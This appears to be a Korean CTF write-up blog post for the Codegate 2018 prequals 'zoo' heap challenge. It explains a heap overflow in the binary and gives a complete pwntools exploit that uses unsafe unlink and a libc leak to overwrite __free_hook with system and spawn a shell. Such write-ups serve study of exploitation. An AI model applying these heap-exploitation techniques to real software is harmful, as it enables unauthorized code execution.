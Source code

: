 ```yaml
---
layout:     post
title:      "Codegate 2018 prequals zoo write-up"
subtitle:   "yeah~~ feel so good~"
date:       2018-02-15
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2018 prequals zoo write-up

### 1. Intro

unsafe ulink에 대한 이해도를 높이는데 많은 도움을 주었다.



### 2. Binary

```
-----------* My Own Zoo *-----------
[1] Adopt an animal
[2] Feed an animal
[3] Clean an amimal house
[4] Take a walk with an animal
[5] Take an animal to the hospital
[6] List animal info
[7] Close the zoo
------------------------------------
```

위와 같이 7개의 메뉴로 이루어져 있다.

1. Adopt an animal
   - 동물을 입양시킨다. (name, type)
2. Feed an animal
   - 동물에게 음식을 주거나 약을 준다.
   - 음식을 주면 food chunk를 할당하며, 간간히 dung chunk도 할당한다.
   - 약을 줄때에는 동물이 병에 걸려 의사에게 약 처방을 받았을 때이며, 약의 정보를 입력한다. (name, description)
3. Clean an animal
   - 동물의 dung chunk를 free한다.
4. Take a walk
   - 동물의 food chunk를 free한다.
   - 만약 동물이 food나 medicine이 아닌 다른걸 가지고있다면, 그곳에 주인의 메세지를 남길 수 있다.
5. Take an animal to the hospital
   - 동물의 dung chunk를 5개 free한다.
   - 만약 그 이후에도 dung chunk가 5개 이상이라면 약을 처방한다.
6. List animal info
   - 동물의 상태를 보여준다. (Name, Species, Likes, Get Food, Get Dung, healthy info)
7. Close the zoo
   - 프로그램을 종료한다.



### 3. Vulnerability

```c
      ...		
      puts("------------------------------------");
      printf("[+] Your animal %s is ill now. :(\n", *&a1->name[8 * (animal_idx + 2LL)] + 4LL);
      puts("[+] You can only feed medicines to your animal.");
      printf("[+] Please tell me the name of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 16LL), 8uLL);
      printf("[+] Please tell me a description of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 24LL), 0x78uLL);// heap_overflow
      ...
```

동물에게 약을 처방할때 heap overflow가 발생하여 다음 chunk 의 prev_size와 size를 덮을 수 있다.<br>또한 이름을 입력하고 그뒤에 바로 food_chunk가 할당되어, 이름을 출력할때 heap_leak을 얻을 수 있다.



### 4. Exploit

Unsafe Unlink를 heap chunk를 대상으로 해주면 된다. 그러면 4번의 메뉴로 animal structure를 overwrite하여 arbitrary read/write가 가능하다.

```python
from pwn import *

s = process('./zoo')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def adopt(idx,name):
	s.sendlineafter('>> ', '1')
	s.sendlineafter('>> ', idx)
	s.sendafter('>> ', name)

def feed(name):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)

def feed_medi(name,medi_name,description):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)
	s.sendafter('>> ', medi_name)
	s.sendafter('>> ', description)

def clean(name):
	s.sendlineafter('>> ', '3')
	s.sendafter('>> ', name)

def walk(name):
	s.sendlineafter('>> ', '4')
	s.sendafter('>> ', name)

def hospital(name):
	s.sendlineafter('>> ', '5')
	s.sendafter('>> ', name)

def a_list(name):
	s.sendlineafter('>> ', '6')
	s.sendafter('>> ', name)


s.sendlineafter('>> ', '/bin/sh')

adopt('1','A' * 20)
feed('A' * 20)
s.recvuntil('A' * 20)
heap = u64(s.recv(6) + "\x00" * 2)
target = heap - 0x6a8 + 0x8
log.info("HEAP : " + hex(heap))
log.info("TARGET : " + hex(target))

adopt('1','A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)

payload = p64(target - 0x18)
payload2 = p64(target - 0x10)
payload2 += '\x00' * 0x60 + p64(0x80) + p64(0x90)

hospital('A' * 10)
adopt('1','A' * 5)

for _ in xrange(1):
	for _ in xrange(20):
		feed('A' * 5)
	for _ in xrange(20):
		walk('A' * 5)
for _ in xrange(8):
	clean('A' * 5)

clean('A' * 10)
feed_medi('A' * 10,'NEXTLINE','NEXTLINE')
feed('A' * 5)
feed_medi('A' * 10, payload , payload2)

for _ in xrange(2):
	clean('A' * 10)

walk('A' * 10)
payload3 = p64(target+0xe80)
payload3 += p64(target+0x1150)
payload3 += p64(target-0x210) # /bin/sh
payload3 += p64(target+0x60)
payload3 += p64(target+0x70)
s.sendafter('>> ',payload3)

s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0x0) * 2 + p64(target+0x970))

a_list('A' * 10)
s.recvuntil('[-] Species : ')
libc = u64(s.recv(6) + "\x00" *2) - 1176 - l.symbols['__malloc_hook']
log.info("LIBC : " + hex(libc))

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0) + p64(libc + l.symbols['__free_hook']-0x18))
s.sendafter('>> ','\x00')

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(libc + l.symbols['system']))

walk('A' * 10)
s.interactive()
```
